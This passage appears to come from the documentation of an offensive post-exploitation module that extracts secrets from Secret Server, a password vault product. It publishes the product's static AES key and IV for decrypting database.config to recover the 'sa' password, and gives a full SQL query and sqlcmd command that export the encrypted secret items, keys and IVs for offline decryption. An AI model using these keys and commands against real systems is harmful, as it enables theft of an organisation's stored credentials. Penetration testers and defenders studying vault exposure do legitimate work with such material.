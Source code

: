 MEK values including the 128 and 256-bit keys and 128-bit IV must be formatted as valid hexadecimal
strings.

### Acquire Database Export
You must possess a properly formatted CSV export of Secret Server data in order to use this module.
Secret Server uses `MSSQL` as a backend and stores database parameters including the `sa` credential in
`database.config`, likewise stored under the `.\SecretServer` virtual directory in the IIS web root. The
file contains a collection of key-value pairs stored as .NET binary serialized data. Like
`encryption.config`, this file is also encrypted, though it uses a different static key and is fairly
straightforward. Notably, the `database.config` file uses a 128-bit AES key:

Secret Server `database.config` static AES-128 key:
  `020216980119760c0b79017097830b1d`

Secret Server `database.config` static AES IV:
  `7a790a22020b6eb3630cdd080310d40a`

Successful decryption of the file should allow the relevant values including the `sa` password to be
extracted from the plaintext; this step is not required if `SYSADMIN` level access to the target SQL
instance has already been accomplished through other means. Once access to the target database is
achieved, the following SQL query will extract the data in a format the module can digest:

```
SELECT s.SecretID,s.LastModifiedDate,s.Active,CONVERT(VARBINARY(256),t.SecretTypeName) SecretType,CONVERT(VARBINARY(256),s.SecretName) SecretName,i.IsEncrypted,i.IsSalted,i.Use256Key,CONVERT(VARBINARY(256),f.SecretFieldName) SecretFieldName,s.[Key],s.IvMEK,i.ItemValue,i.ItemValue2,i.IV FROM tbSecretItem AS i JOIN tbSecret AS s ON (s.SecretID=i.SecretID) JOIN tbSecretField AS f ON (i.SecretFieldID=f.SecretFieldID) JOIN tbSecretType AS t ON (s.SecretTypeId=t.SecretTypeID);
```

Alternatively, the following `sqlcmd` syntax can be used from the command line:

```
sqlcmd -d "SecretServer" -S "localhost\SQLEXPRESS" -U "sa" -P "*****" -Q "SET NOCOUNT ON;SELECT s.SecretID,s.LastModifiedDate,s.Active,CONVERT(VARBINARY(256),t.SecretTypeName) SecretType,CONVERT(VARBINARY(256),s.SecretName) SecretName,i.IsEncrypted,i.IsSalted,i.Use256Key,CONVERT(VARBINARY(256),f.SecretFieldName) SecretFieldName,s.[Key],s.IvMEK,i.ItemValue,i.ItemValue2,i.IV FROM tbSecretItem AS i JOIN tbSecret AS s ON (s.SecretID=i.SecretID) JOIN tbSecretField AS f ON (i.SecretFieldID=f.SecretFieldID) JOIN tbSecretType AS t ON (s.SecretTypeId=t.SecretTypeID)" -h-1 -s"," -w 65535 -W -I
```

Explicit username / password `-U` and `-P` values can be removed in favor of `-E` if executing in the 
context of an account that has access to the target SQL instance and database via Windows integrated
authentication. Note that plaintext fields are deliberately cast to VARBINARY to deal with secret
names or fields with commas in the column data; this is necessary due to MSSQL's shocking inability to
natively produce valid CSV data.
